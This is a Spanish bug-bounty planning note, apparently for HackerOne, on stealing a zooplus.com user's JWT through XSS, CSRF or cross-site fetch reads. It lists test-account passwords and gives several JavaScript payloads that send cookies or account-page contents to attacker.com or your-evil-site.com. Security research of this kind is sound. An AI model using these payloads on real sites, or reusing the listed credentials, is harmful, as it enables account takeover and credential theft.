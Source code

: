```yaml
---
tags:
  - BugBounty
---
```

---
## Acounts
***A***:
- agussepu+demo3@wearehackerone.com 
- password: 123456As
- firstname: TestUno
- LastName: testingUno

***B***:
- TestDos
- victim
- agussepu+demo4@wearehackerone.com 
- pass: asdfT1234

--- 

# Objetivo 

> **Obtener las cookies `MZPSID` y `mzpStickySession`** del navegador de la víctima, para luego hacer un `GET /account/overview` y obtener el JWT del usuario víctima.

---

### ✅ 1. **XSS reflejada o DOM-based**

#### ➤ ¿Qué es?

Un XSS reflejada ocurre cuando puedes inyectar y ejecutar JavaScript desde una URL en Zooplus que no lo filtra bien. Ejemplo:

```
https://www.zooplus.com/search?q=<script>...</script>
```

#### ➤ ¿Cómo te ayuda?

Aunque no puedas leer las cookies (`HttpOnly` lo impide), **puedes hacer que el navegador las use automáticamente** con `fetch()` o `XMLHttpRequest`.

Esto significa que **puedes automatizar una request a `/account/overview` desde la sesión de la víctima** y robar la **respuesta** (que incluye el JWT).

#### ➤ Ejemplo de ataque con XSS:

```js
fetch("https://www.zooplus.com/account/overview", {
  credentials: "include"
})
  .then(r => r.text())
  .then(jwt => {
    fetch("https://your-evil-site.com/log?data=" + btoa(jwt));
  });
```

➡️ **Resultado**: obtienes el JWT sin tener acceso a las cookies.  
💥 Esto **cierra el círculo del ATO**: tienes el JWT → puedes modificar los datos del usuario.

---

### ✅ 2. **CSRF con fuga de JWT**

#### ➤ ¿Qué es?

CSRF (Cross-Site Request Forgery) permite que un atacante haga que el navegador víctima **envíe una request con sus cookies**, sin que el usuario lo sepa.

Aunque **no puedes ver la respuesta** directamente (por CORS y SOP), si el servidor de Zooplus:

- **No tiene CORS restrictivo**
    
- **O devuelve algo legible (como en HTML o redirección)**
    

...entonces **puedes hacer que la respuesta se refleje o se filtre de alguna forma**.

#### ➤ Qué necesitas probar:

```js
fetch("https://www.zooplus.com/account/overview", {
  credentials: "include"
});
```

➡️ Pruebas:

- ¿Responde con 200?
    
- ¿Devuelve el JWT en el cuerpo?
    
- ¿Puedes leer ese cuerpo desde otro origen? (poco probable, pero si lo permite, tienes jackpot)
    

➡️ Si no puedes leerlo directamente, todavía puedes **usar side-channels**:

- Medir el tamaño de respuesta
    
- Ver si responde distinto según el usuario
    

🔍 Puedes intentar esto con un HTML malicioso en GitHub Pages y ver si hay diferencias.

---

### ✅ 3. **Reflejo de datos vía fetch**

#### ➤ ¿Qué es?

Es similar al CSRF, pero en este caso, **buscas que Zooplus te devuelva algo directamente útil en la respuesta** a un `fetch()` cross-site.

Por ejemplo:

```js
fetch("https://www.zooplus.com/account/overview", {
  credentials: "include"
})
  .then(res => res.text())
  .then(html => {
    fetch("https://attacker.com/log?d=" + btoa(html));
  });
```

#### ➤ ¿Cómo ayuda esto?

Si el endpoint devuelve el JWT en la respuesta (como cabecera `Authorization: Bearer`, o en el HTML del dashboard del usuario), puedes capturarlo así.

📌 Requisitos para que funcione:

- Que la respuesta **no esté protegida con CORS**
    
- Que el navegador **permita leerla**
    
- Que **el JWT esté presente** en la respuesta
    

➡️ Si alguna de estas condiciones se cumple, puedes **extraer el JWT directamente sin robar las cookies**.

---

## 🧠 En resumen

| Método                       | Requiere XSS | Se basa en cookies | Puede devolver JWT | Puedes leer respuesta |
| ---------------------------- | ------------ | ------------------ | ------------------ | --------------------- |
| XSS + `fetch`                | ✅ Sí         | ✅ Sí               | ✅ Sí               | ✅ Sí                  |
| CSRF + `fetch`               | ❌ No         | ✅ Sí               | ✅/❌ Depende        | ❌ (bloqueado por SOP) |
| Reflejo de datos via `fetch` | ❌ No         | ✅ Sí               | ✅ Si hay leak      | ✅ Si no hay CORS      |

---

## ✅ ¿Qué te recomiendo hacer?

### Paso 1: **Buscar un XSS funcional**

- Revisa parámetros reflejados: `returnUrl`, `q`, `search`, `category`, etc.
    
- Usa payloads como:
    
    ```html
    <script>fetch('https://attacker.com?c='+document.cookie)</script>
    ```
    

### Paso 2: **Si encuentras una, prueba `fetch('/account/overview')`**

- Analiza si puedes obtener el JWT.
    
- O al menos datos que confirmen el usuario.
    

### Paso 3: **Si no hay XSS**, intenta detectar **si `/account/overview` se puede leer cross-site**

- Crea una GitHub Page con un PoC como este:
    
    ```js
    fetch("https://www.zooplus.com/account/overview", { credentials: "include" })
      .then(r => r.text())
      .then(d => fetch("https://attacker.com/leak?d=" + btoa(d)));
    ```
    
